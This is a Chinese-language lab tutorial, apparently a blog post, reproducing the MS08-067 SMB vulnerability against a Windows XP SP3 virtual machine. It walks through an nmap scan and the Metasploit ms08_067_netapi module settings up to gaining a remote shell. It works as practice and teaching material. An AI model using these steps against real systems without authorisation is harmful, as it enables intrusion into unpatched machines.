








## 准备工作

环境：

> 攻击机（192.168.15.128）：Kali GNU/Linux Rolling x86_64
>
> 靶机（192.168.15.129）：
> Windows XP Professional with Service Pack 3 (x86) 

本次攻击测试靶机镜像来自[MSDN, 我告诉你](https://msdn.itellyou.cn/)，特别鸣谢！

由于该漏洞已于2008年末被巨硬以发布补丁包的方式修复，所以有些较新的或者整合的镜像<mark>无法复现此漏洞</mark>，本人盆友亲测，故在此给出本人所用镜像，有需要可以到上面的网站下载：

````
zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso
SHA1: 69DBF131116760932DCF132ADE111D6B45778098
文件大小: 601.04MB
发布时间: 2008-05-01
````

## 开始

配置好XP系统，`win+R`输入`cmd`，在命令窗口执行查询ip命令：

````cmd
ipconfig
````



可知靶机ip为：`192.168.15.129`

在我们的kali里依法炮制，查询ip：

````bash
ifconfig
````



可知攻击机ip为：`192.168.15.128`

两台机器在同一网段，方便我们进行后续操作。

## 攻击

请出`nmap`，对靶机进行扫描：

````bash
nmap -sV -Pn 192.168.15.129  
````

解释下命令的参数：

`-sV` 表示启用版本检测。-sV 使得 nmap 在扫描时不仅会检查开放的端口，还会尝试确定运行在这些端口上的服务的版本信息。例如，如果某个端口上运行的是 HTTP 服务，nmap 会尝试识别是 Apache、Nginx 还是其他 Web 服务，并尝试获取它们的版本号。

`-Pn` 该选项告诉 nmap 不进行主机发现（Host Discovery）。通常，nmap 在扫描前会先进行主机发现，以确定目标主机是否在线（通过发送 ICMP 请求或 SYN 包等方式）。-Pn 选项告诉 nmap 跳过这一步，直接假设目标主机是在线的并进行扫描。

扫描得到：



可以看到靶机开放了三个端口，其中就有我们今天要利用的`445`端口。

直接启动`msf`进行漏洞利用：

````bash
msfconsole  
````

因为我们已经知道了这个漏洞叫`MS08-067`，所以直接搜索：

````bash
msf6> search ms08-067
````



可以看到它找到了一个结果，来使用它：

````bash
msf6> use exploit/windows/smb/ms08_067_netapi
````

或：

````bash
msf6> use 0
````

然后我们来选择靶机版本`target`，本人的msf在使用`search`后会自动列出所有`target`，但是盆友亲测不会，所以使用命令来列出所有`target`：

````bash
msf6> show target
````

这里一定要注意选择你自己的靶机版本，比如盆友使用的是简体中文版的winxp sp3，选用繁中版本xp或者是server的都会无法连接：

````
The connection was refused by the remote host (192.168.91.131:445).
````

默认`target`为第一个（0），使用`set TARGET 序号/名称`来设定`target`：

````bash
msf6> set TARGET 'Windows XP SP3 Chinese - Simplified(NX)'
````

效果图在最后面的图片。

不建议复制我的，因为不同环境它的序号和名字也会变，比如我的简中XP序号是35，朋友的是10。



如果设定了错误的`target`并且已经执行了的话，需要重启靶机，不然会无法连接到靶机的445端口。

配置好target后，继续使用`set`来配置剩下需要配置的参数，查看所需参数：

````bash
msf6> show options
````



配置`RHOSTS`、`RPORT`:

````bash
msf6> set RHOSTS 192.168.15.129
msf6> set RPORT 445
````

这里遇到很神奇的事，可能是我俩版本不一样，我可以使用`RHOST`代替`RHOSTS`，但是朋友这样输就会报错，以及可能msf不会给你自动配置`RPORT`、`LHOST`，具体需要参考上面的`options`是否已有值。

一切准备好后，开始攻击！

输入`run`:

````bash
msf6> exploit(windows/smb/ms08_067_netapi) > run
````



成功拿到shell!

来测试一下：

````bash
cd ..
mkdir Ciallo
cd Ciallo
edit hacknya.txt
sysinfo
````



完美！

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1965377560&auto=0&height=66"></iframe>